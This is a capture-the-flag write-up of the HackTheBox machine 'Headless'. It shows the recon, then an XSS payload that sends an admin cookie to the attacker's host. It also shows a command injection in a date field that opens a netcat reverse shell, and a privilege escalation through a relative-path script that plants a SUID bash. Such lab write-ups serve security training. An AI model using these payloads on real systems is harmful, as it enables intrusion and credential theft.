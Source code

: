 ```yaml
---
tags:
  - hack
  - linux
---
```

# HackTheBox: [Headless](https://app.hackthebox.com/machines/Headless)

> [!tip]- Summary with Spoilers
> - This Linux machine included an XSS vulnerability that enabled RCE, providing initial access.
> - Privilege escalation was achieved via a misconfigured `sudo` script that invoked another script using a relative path.

## Services

### TCP

```console
# Nmap 7.94SVN scan initiated Tue May 28 14:16:13 2024 as: nmap -v -p- -T4 --min-rate 10000 -oN nmap_tcp t
Nmap scan report for t (10.10.11.8)
Host is up (0.12s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
```

## 5000/tcp Http

![](_/htb-headless-20240528-1.png)

```console
404      GET        5l       31w      207c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       93l      179w     2363c http://t:5000/support
200      GET       96l      259w     2799c http://t:5000/
500      GET        5l       37w      265c http://t:5000/dashboard
```

`/dashboard` complains about authorization:

```text
The server could not verify that you are authorized to access the URL requested. You either supplied the wrong credentials (e.g. a bad password), or your browser doesn't understand how to supply the credentials required.
```

Burp shows that it sets a cookie:

```console
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
```

Decoded, it contains `"user",` and some data, `f^TïËòÍhðÖðY~`.

So, first I'll try to use the form at `/support` to do an XSS attack and recover an admin's cookie.

My first attempt uses `<script>var i=new Image(); i.src="http://10.10.14.2/?cookie="+btoa(document.cookie);</script>` as the `message` parameter on the `/support` form. But, the site doesn't like that:

![](_/htb-headless-20240528-3.png)

I get one empty hit:

```console
10.10.14.2 - - [28/May/2024 16:38:29] "GET /?cookie= HTTP/1.1" 200 -
```

Eventually this one comes back:

```console
10.10.11.8 - - [28/May/2024 16:38:51] "GET /?cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -
```

I'm not sure which requests those were from, since there's a lag.

Decoding the base64 value above, the cookie is:

```console
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```

This time the value is "admin" not "user": `"admin"fÌ94Iº­(È½_lÄ§^ô`

I try the `/dashboard` page again, but this time I use Intercept in Burp and replace the cookie value with the one captured. Now I can view the dashboard:

![](_/htb-headless-20240528-4.png)

That's great but I also edit the cookie value in Firefox so I can play around with the dashboard without having to intercept and modify each request.

![](_/htb-headless-20240528-6.png)

Here's the POST request:

```http
POST /dashboard HTTP/1.1
Host: t:5000
Content-Length: 15
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://t:5000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://t:5000/dashboard
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Connection: close
date=2023-09-15
```

## RCE

Modifying the `date` parameter with a reverse shell invocation works:

```http
date=2023-09-15;busybox%20nc%2010.10.14.2%20443%20-e%20bash
```

```console
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.8] 42470
id
uid=1000(dvir) gid=1000(dvir) groups=1000(dvir),100(users)
```

## PE

One script available via Sudo:

```console
dvir@headless:~/app$ sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty
User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

```text
dvir@headless:~/app$ cat /usr/bin/syscheck
#!/bin/bash
if [ "$EUID" -ne 0 ]; then
  exit 1
fi
last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"
disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"
load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"
if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi
exit 0
```

I'm most interested in this line:

```console
./initdb.sh 2>/dev/null
```

Since it's using a relative path, I'll create my own malicious `initdb.sh`.

```console
dvir@headless:~/app$ echo 'cp /bin/bash /tmp/x; chmod 4755 /tmp/x' > initdb.sh
dvir@headless:~/app$ chmod +x initdb.sh
```

I'll make sure the process it's looking for isn't running:

```text
dvir@headless:~/app$ ps faxuw |grep initdb
dvir        1497  0.0  0.0   6332  2128 pts/0    S+   02:00   0:00                  \_ grep initdb
```

And then I'll trigger the exploit.

```text
dvir@headless:~/app$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.05, 0.08, 0.08
Database service is not running. Starting it...
dvir@headless:~/app$ ls -l /tmp/x
-rwsr-xr-x 1 root root 1265648 May 29 02:00 /tmp/x
dvir@headless:~/app$ /tmp/x -p
x-5.2# id
uid=1000(dvir) gid=1000(dvir) euid=0(root) groups=1000(dvir),100(users)
x-5.2# cat /root/root.txt
5f8c95f...
```

## Post

## Open Questions

Unresolved issues encountered while attacking this target.

- Which parameter on the `/dashboard` form was vulnerable to XSS? I tried several but it was hard to tell which one worked since there was a delay in the response. And how did one of the responses return an empty string?

## Credits

- Thanks to [TechnoLifts writeup](https://medium.com/@technolifts/headless-hack-the-box-htb-write-up-1c728108c0ca) for getting the right syntax on the XSS.

